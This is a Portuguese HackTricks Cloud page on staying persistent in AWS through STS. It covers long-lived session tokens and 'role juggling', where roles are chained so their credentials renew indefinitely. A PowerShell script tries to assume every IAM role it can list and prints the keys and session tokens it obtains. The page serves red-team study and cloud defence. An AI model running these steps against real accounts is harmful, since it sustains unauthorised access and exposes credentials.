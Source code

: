 # AWS - STS Persistence

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## STS

Para mais informações acesse:

{% content-ref url="../aws-services/aws-sts-enum.md" %}
[aws-sts-enum.md](../aws-services/aws-sts-enum.md)
{% endcontent-ref %}

### Token de Assumir Função

Tokens temporários não podem ser listados, então manter um token temporário ativo é uma maneira de manter a persistência.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# Com MFA
aws sts get-session-token \
--serial-number &#x3C;nome-do-dispositivo-mfa> \
--token-code &#x3C;código-do-token>

# O nome do dispositivo de hardware geralmente é o número na parte de trás do dispositivo, como GAHT12345678
<strong># O nome do dispositivo SMS é o ARN na AWS, como arn:aws:iam::123456789012:sms-mfa/username
</strong># O nome do dispositivo virtual é o ARN na AWS, como arn:aws:iam::123456789012:mfa/username
</code></pre>

### Malabarismo de Cadeia de Funções

[**O encadeamento de funções é um recurso reconhecido da AWS**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id\_roles\_terms-and-concepts.html#Role%20chaining), frequentemente utilizado para manter a persistência furtiva. Envolve a capacidade de **assumir uma função que então assume outra**, potencialmente revertendo para a função inicial de maneira **cíclica**. Cada vez que uma função é assumida, o campo de expiração das credenciais é atualizado. Consequentemente, se duas funções forem configuradas para assumir mutuamente uma à outra, essa configuração permite a renovação perpétua das credenciais.

Você pode usar essa [**ferramenta**](https://github.com/hotnops/AWSRoleJuggler/) para manter o encadeamento de funções:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
-h, --help            show this help message and exit
-r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

<details>

<summary>Código para realizar Role Juggling a partir do PowerShell</summary>

\`\`\`powershell # PowerShell script to check for role juggling possibilities using AWS CLI

## Check for AWS CLI installation

if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) { Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'." exit }

## Function to list IAM roles

function List-IAMRoles { aws iam list-roles --query "Roles\[\*].{RoleName:RoleName, Arn:Arn}" --output json }

## Initialize error count

$errorCount = 0

## List all roles

$roles = List-IAMRoles | ConvertFrom-Json

## Attempt to assume each role

foreach ($role in $roles) { $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($credentials) { Write-Host "Successfully assumed role: $($role.RoleName)" Write-Host "Access Key: $($credentials.AccessKeyId)" Write-Host "Secret Access Key: $($credentials.SecretAccessKey)" Write-Host "Session Token: $($credentials.SessionToken)" Write-Host "Expiration: $($credentials.Expiration)"

## Set temporary credentials to assume the next role

$env:AWS\_ACCESS\_KEY\_ID = $credentials.AccessKeyId $env:AWS\_SECRET\_ACCESS\_KEY = $credentials.SecretAccessKey $env:AWS\_SESSION\_TOKEN = $credentials.SessionToken

## Try to assume another role using the temporary credentials

foreach ($nextRole in $roles) { if ($nextRole.Arn -ne $role.Arn) { $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime) try { $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json if ($nextCredentials) { Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)" Write-Host "Access Key: $($nextCredentials.AccessKeyId)" Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)" Write-Host "Session Token: $($nextCredentials.SessionToken)" Write-Host "Expiration: $($nextCredentials.Expiration)" } } catch { $errorCount++ } } }

## Reset environment variables

Remove-Item Env:\AWS\_ACCESS\_KEY\_ID Remove-Item Env:\AWS\_SECRET\_ACCESS\_KEY Remove-Item Env:\AWS\_SESSION\_TOKEN } else { $errorCount++ } } catch { $errorCount++ } }

## Output the number of errors if any

if ($errorCount -gt 0) { Write-Host "$errorCount error(s) occurred during role assumption attempts." } else { Write-Host "No errors occurred. All roles checked successfully." }

Write-Host "Role juggling check complete."

```
</details>

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
```

</details>
